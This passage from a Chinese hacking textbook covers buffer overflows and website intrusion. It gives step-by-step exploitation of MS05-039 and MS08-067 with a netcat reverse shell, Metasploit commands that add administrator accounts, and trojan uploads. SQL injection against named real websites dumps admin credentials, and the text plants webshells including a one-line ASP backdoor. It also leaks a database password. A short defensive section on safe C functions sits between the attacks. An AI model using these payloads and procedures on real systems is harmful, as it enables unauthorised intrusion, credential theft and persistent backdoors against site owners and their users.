E:\>cd E:\sandbox\nc
E:\sandbox\nc>nc -vv -l -p 3456
listening on [any] 3456 ...
```
图 9

```cmd
命令提示符 - nc -vv -l -p 3456
Microsoft Windows XP [版本 5.1.2600]
(C) 版权所有 1985-2001 Microsoft Corp.
C:\Documents and Settings\liji>e:
E:\>cd sandbox\nc
E:\sandbox\nc>nc -vv -l -p 3456
listening on [any] 3456 ...
connect to [10.0.0.224] from TEST-ZIMN406UNG [10.0.0.13] 1033
Microsoft Windows 2000 [Version 5.00.2195]
(C) 版权所有 1985-1998 Microsoft Corp.
C:\WINNT\system32>_
```
图 11

输入命令“nc -vv -l -p 3456”，让 NC 监听 3456 端口，使 MS05-039 漏洞利用程序产生的反向 shell 连接到本地，如图 9。

然后重新打开一个 cmd 窗口，切换到 MS05-039 漏洞利用程序所在目录，使用命令“ms05039.exe 10.0.0.13 10.0.0.224 3456 1”来执行 MS05-039 漏洞利用程序，如图 10。

```cmd
命令提示符 - ms05039.exe 10.0.0.13 10.0.0.224 3456 1
Microsoft Windows XP [版本 5.1.2600]
(C) 版权所有 1985-2001 Microsoft Corp.
C:\Documents and Settings\liji>e:
E:\>cd sandbox\Ms05039
E:\sandbox\Ms05039>ms05039.exe 10.0.0.13 10.0.0.224 3456 1

MS05-039 Windows PnP Remote Overflow Exploit

Connect back shellcode Edition By superlone[EST]

Tested On Windows 2000 PRO SP4 CN

[+] Trying to connect to remote port on10.0.0.13:445...ESTABLISHED
[+] Making null session...OK
[+]Trying to bind pipe...OK
[+] Tring to send crafted packet...OK
[+]Exploit done!Check your reverse shell on 10.0.0.224:3456
```
图 10

此时，NC 所监听的 CMD 也变成了目标机的 shell，如图 11。

现在我们已经获得了目标机的权限，可以在上面像操作本地系统一样进行任何操作，例如使用命令“dir /w”查看文件，如图 12。可以看出，通过漏洞利用程序，已经获得了系统的最高权限。系统并没有任何针对防火墙的穿越措施，此时可以很容易的上传后门、木马等程序。

### 4.3.3 最新 IPC$ 0day 初体验

MS08067 可以说是08年最为火爆的windows系统漏洞之一，要成功必须满足几个条件，就是在执行溢出程序之前，本机和目标机必须要开启以下服务：Server、Computer Browser、Workstation和IPC$空连接、139或445端口，同时目标主机不能开防火墙，包括系统自带的防火墙，否则就算对方没有打补丁也会失败。

### 1. MS08067 漏洞介绍

据微软官方解释：这是Windows操作系统下的Server服务在处理RPC请求过程中存在的一个严重漏洞，远程攻击者可以通过发送恶意RPC请求触发这个溢出，导致完全入侵用户系统，并以SYSTEM权限执行任意指令并获取数据，造成系统失窃及系统崩溃等严重问题。

MS08067 漏洞的影响覆盖面很广，包括Windows Server 2008 Core以外所有Windows系统，其安全补丁编号是KB958644。

### 2. 免口令IPC$ 溢出0day

MS08067 漏洞主要是针对IPC$的，所以它的一切活动都是建立在ipc$连接的基础上。下面我们来做一个漏洞测试。

众所周知，Windows系统在打开ipc$的情况下，都是可以建立空连接的。空连接的意思就是说在命令中没有出现用户名和密码，两者都为空。

我们在CMD中输入命令：`net use \\192.168.1.20 "" /user: ""`，如图13。

但是这条命令执行成功后，我们没有任何权限执行其他一些命令。比如获取对方系统时间和磁盘共享，输入命令：`net time \\192.168.1.20` 和 `net view \\192.168.1.20`，返回信息都是“Access is denied”，就是权限不足的意思，如图14。

下面我们就请出MS08067溢出程序来溢出192.168.1.20。在溢出成功后，我们可以建立一条用户名为user，密码任意的IPC$连接。

首先确认一下对方系统中不存在USER用户，输入命令：`net use \\192.168.1.20\ipc$ "" /user:"user"`，建立不成功，如图15。

```cmd
C:\>die \\192.168.1.20 \pipe\brows
ncacn_np:\\\\192.168.1.20[\pipe\brows]
WAHAHAH 5 00000005
hi
C:\>
```

```cmd
C:\>net use \\192.168.1.20\ipc$ "" /user:"user"
The command completed successfully.
C:\>
```

```cmd
C:\>net time \\192.168.1.20
Current time at \\192.168.1.20 is 2008/11/4 下午 11:29
Local time <GMT+08:00> at \\192.168.1.20 is 2008/11/5 下午 03:29
The command completed successfully.
C:\>
```

```cmd
C:\>net use \\192.168.1.20
WINZM.IME
v12mgr.exe
wkssvc.dll
vlnotify.dll
unicore.dll
wou32.dll
wowexec.exe
wowfaxui.dll
write.exe
us2_32.dll
wsecedit.dll
ushext.dll
ushisn.dll
ushon.ocx
usnmp32.dll
wtsapi32.dll
wupdmgr.exe
xcopy.exe
xiffr3_0.dll
xolehlp.dll
频道屏幕保护程序.scr
1748 个文件 237,476,430 字节
32 个目录 1,947,385,856 可用字节
C:\WINNT\system32>
```

```cmd
C:\>net use \\192.168.1.20 "" /user:""
The command completed successfully.
```

```cmd
C:\>net time \\192.168.1.20
System error 5 has occurred.
Access is denied.
C:\>net view \\192.168.1.20
System error 5 has occurred.
Access is denied.
```

```cmd
C:\>net use \\192.168.1.20\ipc$ "" /user:"user"
System error 1219 has occurred.
Multiple connections to a server or shared resource by the same user, using more than one user name, are not allowed. Disconnect all previous connections to the server or shared resource and try again..
```

接着我再用MS08067来溢出，输入命令：`die \\192.168.1.20 \pipe\brows`，如图16。

现在再来建立ipc$连接，输入命令：`net use \\192.168.1.20\ipc$ "" /user:"user"`，如图17。

哈哈，现在建立成功了！再来看看有什么权限，查看一下对方系统时间，输入命令：`net time \\192.168.1.20`，成功获取对方系统时间，如图18。

再来查看对方共享文件，输入命令：`net view \\192.168.1.20`，成功查询到对方共享文件，如图19。


此时，我们COPY个小马到对方的D盘里去，输入命令：`copy s.exe \\192.168.1.20\d`，拷贝文件成功，如图20。


然后使用AT计划任务来指定时间运行它，输入命令：`at \\192.168.1.20 15:41 d:\s.exe`，运行不成功，如图21。


命令使用到这里就说明了一个问题，漏洞是存在的，虽然可以成功溢出，但是溢出后只有一个USER的权限，因此我们做不了一些重要的事情。主要问题还是在于我使用的这个MS08067EXP，它并非一个高级的利用程序，用来检测漏洞倒还合适。

### 3. 直接溢出获取system权限的CMDSHELL

皇天不负有心人，最近找到了这个漏洞真正的0day，而且溢出后直接就可以获得到system权限的CMDSHELL。在CMD中输入：`exp`，直接显示程序的帮助信息，如图22。


使用方法非常简单，EXP后面加个IP地址就可以溢出了。我们在CMD中输入：`exp 192.168.1.20`，如图23。


执行后返回信息：“send payload over!”，说明对方存在漏洞，并且成功溢出了。下面我们赶紧来连接对方的4444端口，直接在CMD中输入：`telnet 192.168.1.20 4444`，如图24。


可以看到，成功连接了192.168.1.20的4444端口。现在我们来验证一下是否已经获得system权限，先创建个用户，输入命令：`net user blackmask 123123 /add`，然后将用户blackmask添加到系统管理组，输入命令：`net localgroup administrators blackmask /add`，如图25，命令执行成功。


现在获得了system权限，接下来就是上传木马了，详细的操作大家肯定都熟悉啦。这里特别说说在使用MS08067溢出时会发生的一些问题：

- 1. 返回提示信息：“SMB Connect OK! RpcExceptionCode() = 1722”，溢出失败，对方开启了防火墙。
- 2. 返回提示信息：“Make SMB Connection error:1203”，对方没有开机连网，或者没有安装Microsoft网络的文件和打印机共享协议，或没有启动Server服务。
- 3. 返回提示信息：“Maybe Patched!”，对方已经打过补丁。

### 4.3.4 集群式漏洞攻击

前面讲解了溢出攻击的形成原理以及利用，这里来介绍一款集成式溢出攻击工具Metasploit，如图26。

运行程序之后，输入问号，可以看到里面有很多的命令，下面将最重要的几个做简单解释。

# 第四章 缓冲区溢出和代码安全

- `?`：得到帮助。
- `cd`：更换当前的工作目录。
- `exit`：退出。
- `help`：得到帮助。
- `info`：显示当前程序的信息。
- `quit`：退出程序。
- `reload`：载入 Exploit 和 payloads。
- `save`：保存当前设置
- `setg`：设置一个环境变量。
- `show`：显示可用的 Exploit 和 payloads。
- `use`：使用一个 Exploit。
- `version`：显示程序的版本。


图 26

这么多的命令究竟怎么使用呢？且听笔者慢慢道来。此程序集成了众多的 Exploit，所以要先了解一下程序中到底有那些溢出工具包。

输入“show exploits”，看看有哪些可用的 Exploit 程序，如图 27。

左面显示的是溢出程序的名称，右面是相应的简介。可以看到，Metasploit 中的溢出程序包还是有很多的，完全可以满足我们日常入侵的需要。


图 27

如何查看我们需要的溢出程序的使用方法呢？这就要用到 Info 命令，它的作用是显示溢出程序包的详细信息。

比如我们想要查看“apache_chunked_win32”溢出工具包的使用方法，在命令行下输入：`info exploit apache_chunked_win32`，执行后显示如图 28。

在图 28 中，我们需要注意的是“available targets”和“Available Options”中的内容。前者是列出该溢出程序针对的系统，而后者是溢出程序的选项参数。

这里还需要说明的是，在以上输入的命令中，Exploit 是向程序指明我们要查看的是 Exploit 的信息。当然，你还可以查看 Payload 的信息，它就是我们平时所说的 ShellCode。


图 28

在 Metasploit 中，允许我们自己选择 ShellCode，这样就大大提高了溢出的灵活性。在命令行下输入“show payloads”后执行，可以看到可用的 ShellCode 列表，如图 29。

同样，左面是 ShellCode 的名字，右面是相应的简介。我们再用 Info 命令来看一下 ShellCode 的具体信息，比如要看 Winexec 这个 ShellCode 的信息，在命令行下输入：`info payload winexec`，如图 30。

# 第四章 缓冲区溢出和代码安全


可以看到有两个 Required 项，下面我们来设置这些必须项。在命令行下依次输入如下命令，结果如图 32。

```cmd
set RHOST 127.0.0.1
set RPORT 80
set payload winexec
set CMD net user xiaolong 123 /add & net localgroup administrators xiaolong /add
```


在这些信息中需要注意最顶部和“Available Options”中的内容。Available Options 中的 Required 代表必选项，Optional 代表可选项。

另外，以 BSD 开头的是针对 BSD 系统的 ShellCode，以 Lin 开头的是针对 Linux 系统的 ShellCode，以 CMD 和 WIN 开头的是针对 Windows 系统的 ShellCode，所以一定要选择合适的 ShellCode 才可以成功溢出。

在实际的溢出中，我们要用到的是 use 命令，这里仍然以“apache_chunked_win32”溢出工具包为例。在命令行中输入“use apache_chunked_win32”后会切换到“apache_chunked_win32”目录下，然后输入 show options，查看溢出工具包要求指定输入的内容，如图 31。


第一个命令是指定需要的 ShellCode，第 2 个命令是设置必选项 CMD。其实设置的 CMD 内容就是我们想要执行的命令，至于什么命令，那就

# 第四章 缓冲区溢出和代码安全


看大家的需要了！

最基本的设置我们已经完成，最后指明目标主机的操作系统就可以发动攻击了，我们输入：show targets，可以看到可供选择的操作系统类型。接着输入：set target 0，选定操作系统。OK，我们确认一下，输入：Set，可以看到如图 34 的信息。

检查无误后就可以开始溢出了，输入：Exploit，程序提示溢出开始。只不过我这次试验怎么溢出都不成功，因为对方系统早补了这个漏洞了，见谅。


前面介绍了如何使用命令行下面的 Metasploit，现在来介绍图形界面下使用 Metasploit。两者的使用方法没有太大的区别，只不过是操作方式不同罢了。

到 Metasploit 的安装目录下找到 Msfweb.bat 文件双击运行，一会儿后程序提示执行成功，如图 35。

然后打开 IE，在地址栏中输入 http://127.0.0.1:5555/ 进行访问，等一会儿就会出现如图 36 的信息。

在想要使用的溢出工具包上单击鼠标左键后进入到基本设置窗口，我们仍然以 apache_chunked_win32 为例，如图 37。

单击“select payload”选项进入 Payload 选择界面，如图 38。

选择合适的 Payload 后就进入基本信息的设定界面了，如图 39。


这里的设置和命令行中介绍基本一致，我就不做额外的说明了。设定好后你可以点击“Vulnerability Check”按钮检查目标系统有没有相应的漏洞，或者点击“Launch Exploit”进行攻击！


从上面的操作可以看出，Metasploit的使用非常简单，而且功能也很强，对于我们日常的渗透来说，是一款很实用的工具。

## 4.4 应对缓冲区溢出

缓冲区溢出漏洞一直都是网络安全领域的最大隐患，也有很多安全机构对这些漏洞做了仔细的研究，并防止缓冲区溢出。但往往因为人为或者其它的因素，缓冲区溢出漏洞继续的大量存在。鉴于此，本节将介绍应对缓冲区溢出攻击的一些常见方法。

### 4.4.1 使用更安全的函数

如前面提到的，C语言中的gets函数会导致缓冲区溢出，因此在使用C语言编写程序时，不应该使用gets函数来接收用户的输入，而应使用fgets函数。

我们将前面导致缓冲区溢出的代码进行修改，使用fgets函数代替gets函数，代码如下：

```c
#include <stdio.h>
int main()
{
    char str[5];
    if(fgets(str, 6, stdin)==NULL)
        return 1;
    puts(str);
    return 0;
}
```


编译运行该程序，此时我们仍然输入超过数组 str 5个字符长度的限定，但程序并不会出错而崩溃，如图40。

由于使用了fgets函数代替gets函数，因此即使用户的输入超过了限定长度，也不会造成缓冲区溢出。

### 4.4.2 判断边界

C语言并不会自动去检查程序代码中对数组等变量的访问是否越界，如果程序意外的访问到了数组之外的内存地址，也会导致缓冲区溢出，造成程序执行结果异常。我们看看如下代码：

```c
#include <stdio.h>
int main()
{
    char *str = "hell, china!";
    int i;
    for(i=100; i<120; i++)
    {
        printf("%c", str[i]);
    }
    printf("\n");
    return 0;
}
```

编译运行这段代码，会发现程序在最后打印出了一些奇怪的字符，这是由于本身str只存放了11个字符，但我们却访问了11个字符之后的一些不可知内存区域，即“越界访问”，这是十分危险的，如图41。

因此，我们需要在访问数据之前进行边界检查，防止这种情况的发生。下面的代码可以避免上面的越界访问现象，我们一起来看看。

```c
#include <stdio.h>
int main()
{
    char *str = "hell,china!";
    int i;
    for(i=0;i<20;i++)
    {
        if(str[i] == '\0')
        {
            break;
        }
        else
        {
            printf("%c",str[i]);
        }
    }
    printf("\n");
    return 0;
}
```


编译运行后，发现程序不再打印出奇怪的字符，如图42。

这是因为，每次在访问数组之前，我们都使用语句if(str[i] == '\0')对当前访问的内容进行检测，一旦发现有越界产生则立即停止访问。

### 4.4.3 安全的字符串操作

在程序的编写中，难免会出现对字符串的操作，而C语言中的一些对字符串操作的函数是不安全的。例如strcpy函数，它用于将一个字符串拷贝到另一个指定内存空间里，如果拷贝的字符超过了指定内存空间的大小，那么程序就会发生溢出。我们来看看如下代码：

```c
#include <stdio.h>
#include <string.h>
int main()
{
    char *source = "hello,hacker in the world";
    char dest[5];
    strcpy(dest,source);
    puts(dest);
    return 0;
}
```

代码中我们的原字符串为“hello,hacker in the world”，而程序却将这段字符串拷贝进了一个只能存放5个字符大小的内存空间，即数组dest所指的内存，因此导致了溢出的发生。编译并运行程序，出现如图43的提示框。

要避免这个问题，需要使用另一个函数strncpy来代替，它可以指定需要拷贝的字符长度，而不是任意长度的字符，这样就可以防止缓冲区溢出的发生。我们来看如下代码：

```c
#include <stdio.h>
#include <string.h>
int main()
{
    char *source = "hello,hacker in the world";
    char dest[5];
    strncpy(dest, source, 5);
    dest[5] = '\0';
    puts(dest);
    return 0;
}
```


语句strncpy(dest,source,5);指定了只能拷贝5个字符到指定的内存空间。我们编译并运行，程序正常工作，如图44。

### 4.4.4 检查指针

在C语言中，指针代表的就是一个内存地址，是针对内存的直接操作，因此指针的功能既很强大，但也很危险。如果一旦在程序中使用指针不当，也会导致缓冲区溢出的发生。例如malloc函数，它会在程序运行期间动态的在堆上开辟一块内存空间以供使用，我们来看如下代码：

```c
#include <stdio.h>
#include <malloc.h>
int main()
{
    char *str = (char *)malloc(sizeof(char)*6);
    if(fgets(str, 6, stdin) == NULL)
        return 1;
    puts(str);
    free(str);
    puts(str);
    return 0;
}
```


这段代码的功能就是在程序运行时，调用malloc函数开辟一块内存空间以供存放用户输入的字符串，并将这块内存地址空间的首地址放在指针str中，然后利用指针str就可以调用puts函数原样输出这个字符串。

当输出字符串后，调用语句free(str);将指针所指向的那片内存空间释放掉。如果此时我们再次将已经释放掉的内存空间让函数puts去输出，由于str指向的那片内存已经被释放了，因此程序会出现异常，如图45。

因此，为了防止使用指针去访问已经被释放的内存空间，我们可以在语句free(str);后加入一条语句str=NULL;，让这个指针变为一个空指针，从而避免这种情况。

另外，我们在使用一个指针前，为了避免指针可能已经指向了某一块内存区域，最好在每次使用指针前，都检查指针是否为NULL。因此，上面的代码可以修改如下：

```c
#include <stdio.h>
#include <malloc.h>
int main()
{
    char *str = (char *)malloc(sizeof(char)*6);
    if(str != NULL)
    {
        if(fgets(str, 6, stdin) == NULL)
        {
            return 1;
        }
        else
        {
            puts(str);
        }
    }
    free(str);
    str=NULL;
    if(str != NULL)
    {
        puts(str);
    }
    return 0;
}
```


编译并运行程序后，如图 46，一切正常。

### 4.4.5 系统溢出漏洞的防御

除了从程序的源代码上尽量避免缓冲区溢出的发生，系统溢出漏洞的防御也是非常重要的。不过目前操作系统的溢出漏洞我们是无法从源码上入手的，最好的办法就是及时的给系统打下最新的补丁。

现在有许多第三方的漏洞检测软件，可以对系统进行全面的扫描，这有助于方便的下载及更新系统补丁。

一般情况下，基于缓冲区溢出的黑客攻击，防火墙几乎都无能为力，除非是基于缓冲区溢出漏洞的病毒或者蠕虫，杀毒软件才有可能将其阻挡。其实，我们也可以利用著名的 Metasploit Framework 来检测系统中可能存在的漏洞。


### 4.4.6 神奇的 MCAFEE 缓冲区保护

前面介绍了通过对系统进行设置来防御溢出攻击，现在就请出一款重量级的杀毒软件 MCAFEE，其 McAfee8.0 企业版增加了缓冲区溢出保护功能模块，如图 47。

这里可以设置缓冲区溢出保护的各种选项，一旦有程序进行溢出攻击都会被捕获，如图 48。

另外还有一款专业的溢出攻击防御程序，它就是 DEFENSEWALL，其界面简洁，在事件查看日志中可以看到可疑的活动程序，如图49。

## 4.5 小结

本章介绍了缓冲区溢出的基本概念，并编写简单的C语言程序直观的演示缓冲区溢出原理，从代码上分析缓冲区溢出的入门概念。然后用基于缓冲区溢出漏洞的MS05-039程序攻击一台目标主机，获取目标机的权限。

最后介绍了C语言中一些可能导致缓冲区溢出的函数，使读者能更好的掌握缓冲区溢出相关的技术知识，为后续的深入学习打下了基础。

## 第五章 黑客入侵和网络渗透

> www.nohack.cn

### 5.1 ASP 网站SQL注入攻击

随着B/S模式被广泛的应用，使用这种模式编写应用程序的程序员也越来越多。但由于水平和经验参差不齐，相当一部分的开发人员在编写代码时，没有对用户的输入数据或者是页面中所携带的信息（如Cookie）进行必要的合法性判断，这样就产生了漏洞。因此，攻击者只要提交一些相应的数据库查询代码，根据程序返回的结果，获得一些自己想得到的数据，就可以达到入侵目标网站的目的。

> 【小知识】：什么是SQL注入

SQL注入利用的是正常的HTTP服务端口，表面上看起来和正常的web访问没有区别，但隐蔽性极强，不易被发现。攻击者使用相应的应用程序，拥有将恶意的SQL命令注入到后台数据库引擎执行的能力，这是SQL注入的标准释义。

但是，SQL注入的手法相当灵活，在注入的时候会碰到很多意外的情况。能不能根据具体情况进行分析，构造巧妙的SQL语句，从而成功获取想要的数据，是高手与菜鸟的根本区别。

一般来说，SQL注入一般存在于带有参数的ASP动态网页中，比如类似HTTP://www.xxx.xxx/abc.asp?id=XX等等这种连接。有时一个动态网页中可能只有一个参数，有时却可能有N个参数；有时是数字型参数，有时又是字符串型参数，所以不能一概而论。总之，只要是带有参数的动态网页，且此网页访问了数据库，那么就很有可能存在SQL注入。

> 【小知识】：什么是webshell

webshell就是一个相应脚本语言编写成的，具有在线编辑、删除、新增文件、执行程序及SQL语句等功能的脚本文件，具有随意更改目标页面，删除文件等权限。

#### 5.1.1 ACCESS数据库网站入侵

以ASP语言编写的网站，相对来说是比较容易入侵的，因为操作方法简单，新手也比较容易掌握。一般来说，只要能找到注入点，基本上都可以入侵成功。

通常以ACCESS做为数据库的网站，都是一些公司、个人主页的小型网站，往往管理员的安全意识不强，所以新手练习时一般找这类网站进行入侵。

##### 1. 手动检测网站是否存在注入漏洞

在这之前我们要把IE浏览器“工具”->“Internet选项”->“高级”标签项里面的“显示友好HTTP错误信息”前面的勾去掉，如图1。


图 1

这里我们以http://www.sitdg.com为例，网站非常简单，如图2。随便点击一个链接，比如：全自动攻牙机，链接地址：http://www.sitdg.com/product.asp?productid=16。我们在这个链接的后面输入：and 1=1（注意and前还有一个空格，下同），然后访问，结果如图3，返回正常。

接着再修改 and 1=1 为 and 1=2，访问后结果如图4，页面显示不完全或出现错误，就说明这是一个注入点了。

接着我们再把最后的链接字符修改为 and user>0，来测试一下是什么类型的数据库，访问后的结果如图5。

可以看出，返回错误是：Microsoft JET Database Engine 错误 '80040e10'，说明是ACCESS的数据库。知道这些信息后，我们就可以对这个数据库中的内容进行猜解了。手动检测比较费时，下面我直接用工具给大家演示。

##### 2. 用工具检测用户表及后台地址

打开“阿D注入工具”，点击“SQL注入检测”，在“注入连接”里输入注入点：http://www.sitdg.com/product.asp?productid=16，点击“检测”，如图6。


测试结果和我们前面手工测试一样，的确是ACCESS数据库，接着我们就可以开始检测用户表了。点击“检测表段”，如图7，检测出来一个admin的用户表。双击admin用户表，程序就会自动开始检测表里的字段了，如图8。

选上userpassword和admin这两个字段，点击“检测内容”，就开始读取管理员的后台用户名和密码了，如图9。


现在我们得到用户名：admin，MD5密码：87d949453b8e403c。由于密码是MD5加密的，所以我们要将它破解出来。打开MD5破解网站http://www.cmd5.com，输入MD5密码，点击“MD5加密或解密”，如图10。


最终得到的后台管理员密码：admin8888。接下来我们就来找后台管理登录页面了，点击阿D注入工具的“管理入口检测”，如图11。

检测出来了几个地址，打开看看，发现并不是后台登录页面。回到网站的主页上找找有没有“管理登录”等字样，如图12，赶紧点击打开，后台地址：http://www.sitdg.com/

## 第五章 黑客入侵和网络渗透

master/login.asp。输入用户名：admin，密码：admin888 进行登录，如图 13。

进入到后台，我们在“添加产品”里找到上传图片的功能，如图 14。

很明显，后台采用了 ewebeditor 在线 HTML 编辑器，下面我将通过它的上传漏洞来实现 ASP 木马的上传。

### 3、ewebeditor 上传拿 webshell

既然知道了对方后台采用的是 ewebeditor 在线 HTML 编辑器，那么就先确认一下 ewebeditor 所在的路径。在“详细介绍”右边的大框中按鼠标右键选择“属性”，发现路径是：http://www.sitdg.com/web/，如图 15。

接着来试试 ewebeditor 的默认后台地址：http://www.sitdg.com/web/admin_login.asp，还真被我猜对了，如图 16。

点击“样式管理”，出现两个系统默认的样式，这两个样式是不允许修改的。但是系统支持拷贝一个样式来进行修改，我们随便找个样式，点击“拷贝”，如图 18。

在拷贝出来的样式 full_v1001 的管理处点击“设置”，在“其它类型”里面再加入一个类型 ASA，如图 19。因为 ASA 和 ASP 都可以利用 IIS 解析，由于 ewebeditor 编辑器不支持直接添加 ASP，所以才添加 ASA 的。

再试试默认用户名 admin 和密码 admin，运气也不错，进去了，如图 17，这些都是网站管理员太疏忽所造成的。

最后“提交”，样式修改成功。然后点击“返回样式管理”，再点击样式 full_v1001 的“预览”，点击“插入其他文件”，在弹出的“文件属性”框中，点击“Browse”，选中要上传的 ASA 木马 blackmask.asa，如图 20。当然，事先要将 ASP 木马修改成 ASA 木马。

点击“确定”，上传成功，再点击“代码”就可以看到上传的 ASA 木马的地址了，如图 21。

在 IE 里打开 ASA 木马：http://www.sitdg.com/web/uploadfile/2009317161827403.ASA，输入登录密码，进入 webshell 管理操作，如图 22。

由于服务器对这个站点的权限设置得不是非常严格，因此在 webshell 里可以修改、删除此站点下的任何文件或文件夹。至于进一步的拿到服务器的 3389 权限，我这里先不深入，会在后面的章节中叙述。

### 5.1.2 mssql2005 数据库网站入侵

mssql2005 各个方面都比 mssql2000 有所提高，已经有许多网站陆续升级。对那些习惯了 sql2000 环境下玩注入的朋友来说，一些注入工具已经无法使用，比如阿 D、NBSI、pangolin 等。

不过终究会有新的工具流行起来，sql_2005_inj 是一款专门针对 mssql2005 数据库而开发的注入工具，作者一共开发了两个版本，第一个版本只有单单的猜解功能，后来的版本在第一个版本的基础上陆续增加了目录查看、执行 CMD 命令、上传木马等一些功能。下面，我就带大家来体验 sql_2005_inj 第二版的超强功能吧，如图 23，为 sql_2005_inj 的主界面。

## 第五章 黑客入侵和网络渗透

1、检测注入点数据库类型

在 IE 里打开网站：http://www.blackyak.co.kr/notice/notice_view.asp?bbs_no=01，如图 24。

在地址后加上 and 1=1，访问后返回正常，如图 25。接着在地址后加上 and 1=2，返回出错了，如图 26。

这说明存在 SQL 注入，我们来查看一下数据库类型，输入 and 1=(select%20@@version)，如图 27。

返回数据库类型为 Microsoft SQL Server 2005，接下来就可以用 sql_2005_inj 进行注入。

2、union select 字段查询

在使用 sql_2005_inj 进行注入之前，我要说明一点，sql_2005_inj 和以往的注入工具有所不同，它的注入格式为：http://localhost/newsview.asp?id=0/**/union/**/select/**/1,2,3,4,5,6,[k],8。

并不是只要将注入点拷贝到 sql_2005_inj 里面就可以开始注入，我们先要查找出这个注入点的 union select 查询字段，比如在 IE 里输入：http://www.blackyak.co.kr/notice/notice_view.asp?bbs_no=0/**/union/**/select/**/1,2,3（注：/**/代表空格，1,2,3 是当前表里的字段数目），如图 28。

返回出错，那么我就一直在后面添加数字序号，比如 4,5,6……，直到返回正常页面为止。

当我输入：http://www.blackyak.co.kr/notice/notice_view.asp?bbs_no=0/**/union/**/select/**/1,2,3,4,5,6,7,8,9,10,11,12,13,14 后，页面返回正常，如图 29。

在图 29 中，页面上显示的 2、3、7 这几个数字就是可以显示的字段位置，意思就是说在这 3 个数字的位置上，任选其中一个替换成 SQL 语句，都能暴出想要的结果。

比如替换 7 这个位置，在 IE 里输入：http://www.blackyak.co.kr/notice/notice_view.asp?bbs_no=0/**/union/**/select/**/1,2,3,4,5,6,(select%20@@version),8,9,10,11,12,13,14 后，访问结果如图 30。

由于手动查询字段比较费时，这里我们可以采用一款 PHP 注入工具 MySQLi Dumper 来帮助查找。打开 MySQLi Dumper，如图 31。

点击“Num.Blind”，输入：http://www.blackyak.co.kr/notice/notice_view.asp?bbs_no=0，其它都默认，再点击一下“Get Page”，结果如图 32。

返回的出错页和在网页上提交的结果一样。继续点“Get Page”，直到页面返回正常，如图 33。无论是手动还是工具，结果都是一样的，随便大家挑哪种方法。

最后我们只要将 2、3、7 其中任何一个位置替换成[k](注：[k] 是在注入的时候，程序会自动替换成相应的 SQL 语句)，就可以放到 sql_2005_inj 里面去注入了。

### 3、sql_2005_inj 工具注入

运行 sql_2005_inj 工具，在 URL 里面输入注入地址：http://www.blackyak.co.kr/notice/notice_view.asp?bbs_no=0/**/union/**/select/**/1,2,3,4,5,6,[k],8,9,10,11,12,13,14，点击“check”，如图 34。

我们看图 34 的最底下，返回信息：“The URL can be injected”，说明可以注入了。点击“information(系统信息)，将“information list”里的选项（计算机名、数据库服务器名、数据库版本、当前数据库名、当前系统用户、当前数据库用户等）都选上，点击“Get information”，读取服务器的各个信息，如图 35。

等待片刻，结果出来了，当前用户权限是 sa，服务器分两个盘 C 和 D。

切换到"data"标签项，点击"database"就可以获取服务器的所有数据库。双击其中一个就可以读取表，选中表，点"Data"按钮，就可以读取表的内容了，这里和其他注入工具的使用方法是一样的，如图 36。

然后切换到"DirTree"（路径）标签项，先来查找 D 盘里的文件信息，输入 d:\，点击"List Path"即可。查找目录要有耐心，我们最后确定路径为：D:\dongjn_web\Brand_Site\，如图 37。

### 4、上传一句话木马拿 WEB SHELL

接着切换到"FileWriter"标签项，在"Path"路径里输入：D:\dongjn_web\Brand_Site\notice\img\，在"content"下的方框里输入代码，比如一句话木马：<%execute(request("a"))%>。然后在右边下拉菜单中选"backup-log"日志备份，再点击"Write"，程序开始写入。

这个写入过程可能比较慢，依网速而定，直到最底下返回信息："completion of all works"，说明已经执行完了，如图 38。

最后在 IE 里打开连接：http://www.blackyak.co.kr/notice/img/notice.asp，如图 39。

当看到返回信息中有"execute"字样，一般表示一句话木马已经写入成功了。打开一句话发送端，输入一句话木马地址：http://www.blackyak.co.kr/notice/img/notice.asp，密码：a，选择功能“服务器变量”，最后“提交”，如图 40。

接着上传 ASP 大马，在“功能选择”处选择“上传文件”，保存路径：D:\dongjn_web\Brand_Site\notice\img\blackmask.asp，“上传内容”里面输入 ASP 大马的代码，最后点击“提交”，如图 41。

在 IE 里打开 WEBSHELL 的地址：http://www.blackyak.co.kr/notice/img/blackmask.asp，输入登录密码进行访问，结果如图 42。

### 5、艰难的提权

由于注入点是 SA 权限，所以我们可以直接用 SA 的 xp_cmdshell 组件来执行命令（注：SQL2005 数据库的 xp_cmdshell 默认情况下是关闭的）。回到 sql_2005_inj 工具，切换到"cmdshell"标签项，点击"Restore cmdshell"，启用服务器 SQL2005 数据库的 xp_cmdshell 组件，如图 43。

接着来执行命令，我们在"command"里输入：net user root$ RiQ0ix8u /add 命令，准备添加个用户，然后点击"Execute"，如图 44。

```
net user root$ RiQ0ix8u /add
```

没有回显，看来恢复 xp_cmdshell 并没有成功，所以没办法执行命令。还是回到 webshell 上继续想办法吧，点击“服务器组件支持”，如图 45。

我们看到，wscript.shell 是启用的，来执行命令吧。点击“执行 CMD 命令”，先在 wscript.shell 前打“勾”，输入命令：net user，点击“执行”，结果如图 46。

再来“执行 CMD 命令”，这次去掉"wscript.shell"前的勾，点击“执行”，还是执行不了，如图 47。

那我们上传一个 CMD.exe 文件到 D:\dongjn_web\Brand_Site\notice\img 下面去，再来执行命令，如图 48。

再把"wscript.shell"前打上“勾”，结果还是执行不了。看来只有重新上传一个 aspx 的木马，因为 ASPX 的权限要比 ASP 的大。

上传 jx.aspx 到 D:\dongjn_web\Brand_Site\notice\img，在 IE 里打开 http://www.blackyak.co.kr/notice/img/jx.aspx，输入登录密码后回车，结果如图 49。

点击"command"来执行命令，输入：net user，如图 50。

执行命令成功了，接着输入命令：net user root$RiQ0ix8u /add 进行添加用户，如图 51。

www.nohack.cn

再输入命令：net user root$ 查看一下，如图 52。权限不够！既然是 SA 连接的数据库，那么先找一下 SA 的密码，再通过 SQL 语句来恢复 xp_cmdshell 组件。

在 D:/dongjn_web/Brand_Site/include/DB.asp 文件里面找到 SA 的密码，如图 53，得到数据库用户名：sa，密码：dongjin515@。

点击"sqltools"，在"PWD="后面输入密码：dongjin515@，其它默认，然后选"MS-SQL"，点击"Submit"，如图 54，连接成功，如图 55。

点击"SA_Exec"按钮，在下拉框中选择"Add xp_cmdshell(SQL2005)"，然后点击"SA_Exec"执行，如图 56。

接着再来执行命令：exec master..xp_cmdshell 'net user'，没有执行成功，如图 57。

看来恢复 XP_cmdshell 组件无望了，只能想其他办法。先来看看这台主机开放了哪些端口吧！回到命令执行，输入命令：netstat -na，执行结果如图 58。

